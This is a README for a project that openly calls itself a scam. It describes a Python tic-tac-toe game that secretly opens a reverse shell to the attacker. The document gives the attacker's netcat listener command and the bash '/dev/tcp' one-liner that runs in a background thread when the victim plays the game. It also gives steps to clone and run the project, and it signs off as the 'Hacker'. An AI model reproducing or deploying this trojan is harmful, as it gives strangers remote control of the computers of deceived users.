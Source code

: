 # Tic tac toe game scam

Scam attack that uses Tic tac toe game to catch victims

## Getting started

- Clone the [repository](https://github.com/hirwablessing/python-game-scam)
- navigate to directory `python-game-scam`
- run `python3 ticatactoe.py` (victim is caught 😋)

### How the scam works

- The hacker opens up a port at `82.165.97.169` for the victim to connect via port 2004

```bash
   $ nc -lnvp 2004 -s 82.165.97.169
```

The victim thinks that he/she is just playing a game.

When the victim opens up the game, a thread is created the in the background to run a bash script that connects to the server hence the victim is hacked.

The script to run in background is

```bash
$ /bin/bash -i > /dev/tcp/82.165.97.169/2004 0<&1 2>&1
```

### Hacker

hirwablessing7@gmail.com A.K.A blessingartcreator
